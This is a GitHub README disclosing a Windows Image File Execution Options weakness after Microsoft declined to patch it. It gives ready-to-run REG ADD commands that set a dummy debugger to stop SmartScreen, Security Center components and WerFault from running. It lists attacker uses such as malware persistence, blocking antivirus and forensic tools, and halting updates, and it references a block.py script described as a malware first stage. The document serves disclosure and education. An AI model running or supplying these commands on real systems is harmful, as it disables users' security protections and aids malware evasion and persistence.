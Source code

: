 # Block Smartscreen and Security Center on Windows Operating Systems
&emsp; On the evening of May 29 (2022), I made the necessary notifications to the "Microsoft Security Center" [ VULN-068278].
However, according to the reply received by e-mail on June 10, "We determined that an immediate fix will not be released for the reported behavior. It was recommended to hardened because the relevant vulnerability requires **Administrator authority**. We have closed this case" .
For this reason, I wanted to warn users by posting this vulnerability or weakness in my account on Github.


&emsp; If any executable file is added to ("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\") the regedit path and a debugger flag is set, another program can be run before that program is run. 
If the program that is run first does not invoke the relevant program in any way, it can replace the relevant program.
This can prevent various important programs from running. 
This is valid for important processes of Windows.


&emsp; For example, if you want to block Smartscreen
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\smartscreen.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```


&emsp; For example, if you want to block Security Center (Windows Defender and other tools)
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\securityhealthhost.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\secHealthUI.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\werFault.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```

<dl>
  <dt> The purposes of using this vulnerability can basically be listed as follows.
  <dd>
  <dd> 1) It can provide persistence for malware software.
  <dd> 2) Although it is different in function and structure, similar attacks that can be made by interfering with the system call table can also be made using this vulnerability.
  <dd> 3) Security measures such as Smartscreen, Windows Defender, etc. that come integrated with Windows can be blocked.
For example, although Windows Defender cannot be blocked directly, Windows Defender is prevented from running by preventing the components necessary for it to work.
In the example, Windows Security Center has been prevented from working, and related components have become inoperable.
  <dd> 4) In particular, third-party virus scanning and security software can be blocked.
Also, any other third-party software may be blocked from running.
  <dd> 5) Processes used for forensic purposes that are integrated with Windows can be blocked.
  <dd> 6) By blocking the components necessary for the operation of Windows, operations such as "sending error reports" and "receiving updates" can be rendered inoperable.
For example, by blocking the "calcs" command, access to certain folders and files can be prevented by preventing the user and Windows from accessing the access control list.
</dl>


Video and Screenshots of the Vulnerability
---
&emsp; A simple video has been posted on Youtube to demonstrate the vulnerability. 
It can be viewed at the link below.

&emsp; **[Youtube Link]** https://youtu.be/_rQrLeDaFSU


**[ScreenShot 1]**
![e3](https://user-images.githubusercontent.com/71177413/173035204-a42ff30d-6dd0-4dde-8c53-10384db37ed2.JPG)


**[ScreenShot 2]**
![e4](https://user-images.githubusercontent.com/71177413/173035010-04fef1aa-7eac-4891-8541-5bcd57d70390.png)


**[ScreenShot 3]**
![e6](https://user-images.githubusercontent.com/71177413/173035082-fd6e2075-7c98-4786-a50a-d35db152027a.png)


Exploiting the Vulnerability
---
&emsp; As an example, a script has been written to show how a malware can exploit this vulnerability.
The **"block.py"** script has been added to the files as an example in order to represent what we call the first stage in malware attacks

**block.py**
```
(Administrator authority)>> block.py malware.exe
```



Additional information on malwares
---
&emsp; In order to evaluate the vulnerability, basic information about malware-type attacks is given.

**A) Ideal Malware Attacks**
&emsp;

![malware_1](https://user-images.githubusercontent.com/71177413/173053242-7229231b-fad8-4716-90ee-d8572d5c74a6.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]

**B) Types of Malware**
&emsp;

![malware_2_type](https://user-images.githubusercontent.com/71177413/173053253-a976a2ed-72cf-4579-b97f-0bb6d09a4093.png)
[jpg source: From the book "Linux İşletim Sisteminde Malware Analizi", Abdulkadir GÜNGÖR, ISBN:978-625-409-378-4]


**C) Final Stage**
&emsp;

![malware_3](https://user-images.githubusercontent.com/71177413/173053274-478c0e9f-67d0-4b93-b842-061c611fbde2.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]


Disclaimer
---
&emsp; Information and projects published by me on Github are entirely at the user's own risk.
I'm not responsible in any way for any kind of damage that is done to your computer / os / program as cause of this project.
Make sure to use virtual systems as a test environment!


Legal Warning
---
&emsp; Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
